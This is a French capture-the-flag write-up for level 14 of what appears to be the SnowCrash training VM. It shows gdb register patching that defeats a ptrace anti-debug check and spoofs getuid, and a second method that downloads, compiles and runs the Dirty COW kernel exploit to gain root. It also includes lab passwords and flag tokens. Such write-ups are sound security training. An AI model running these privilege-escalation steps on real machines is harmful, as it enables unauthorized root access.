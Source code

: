 # Level14

Se connecter en tant que `level14`:

    $ ssh 192.168.1.124 -p 4242 -l level14
    level14@192.168.1.124's password: 2A31L79asukciNyi8uppkEuSx

---

> MÉTHODE 1:

Premiere étape de recherche

    $ ls -la
    (nothing)

    $ find / -user level14 2> /dev/null  | grep -v /proc
    (nothing)

    $ find / -user flag14 2> /dev/null
    (nothing)

Rien de special... Donc, le seul moyen de le récupérer est d'exploiter le fameux binaire `getflag`.

Comme pour le niveau précendent nous allons utiliser `gdb`:

    	$ gdb getflag
    	(gdb) disas main
    	[...]
    		0x08048989 <+67>:	call   0x8048540 <ptrace@plt>
    		0x0804898e <+72>:	test   %eax,%eax
    		0x08048990 <+74>:	jns    0x80489a8 <main+98>
    	[...]
    		0x08048afd <+439>:	call   0x80484b0 <getuid@plt>
    		0x08048b02 <+444>:	mov    %eax,0x18(%esp)
    	[...]

> C'est un peu près la même manipulation que le niveau précédent, sauf qu'ici nous devons modifier aussi la sortie de ptrace.

Le premier appel systeme `ptrace`, c'est lui qui bloque le reverse, on peut le contourner avec la technique [`bypass for ptrace`](https://gist.github.com/poxyran/71a993d292eee10e95b4ff87066ea8f2)

On voit aussi qu'il utilise getuid, surement pour savoir le bon token a donner, on va devoir se faire passer pour `flag14`, on récupère son id

    $ id flag14
    uid=3014(flag14) gid=3014(flag14) groups=3014(flag14),1001(flag)

continuons avec `gdb`

    	(gdb) break *0x0804898e
    	Breakpoint 1 at 0x804898e
    	(gdb) break *0x08048b02
    	Breakpoint 2 at 0x8048b02
    	(gdb) r
    	Starting program: /bin/getflag

    	Breakpoint 1, 0x0804898e in main ()
    	(gdb) set $eax = 0
    	(gdb) s
    	Single stepping until exit from function main,
    	which has no line number information.

    	Breakpoint 2, 0x08048b02 in main ()
    	(gdb) set $eax = 0xbc6
    	(gdb) s
    	Single stepping until exit from function main,
    	which has no line number information.
    	Check flag.Here is your token : 7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ

> MÉTHODE 2:

Il n'y a aucun fichier ou binaire à exploiter dans `home`. Recherchons ce qui peut être exploité.

    $ uname -a
    Linux SnowCrash 3.2.0-89-generic-pae #127-Ubuntu SMP Tue Jul 28 09:52:21 UTC 2015 i686 i686 i386 GNU/Linux
    Linux kernel < 4.8.3 (created before 2018) are vulnerable to Dirty COW¹.

Dirty COW permet l'élévation des privilèges en exploitant la condition de concurrence sur le mécanisme de copie sur écriture.

    	$ cd /tmp/
    	$ wget [dirty file](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c)
    	$ gcc -pthread dirty.c -o dirty -lcrypt
    	$ ./dirty

Se connecter en tant que `root`.

    	$ su firefart
    	Password:

Se connecter en tant que `flag14` et obtenez le flag.

    	$ su flag14
    	$ getflag
    	Check flag.Here is your token : 7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ

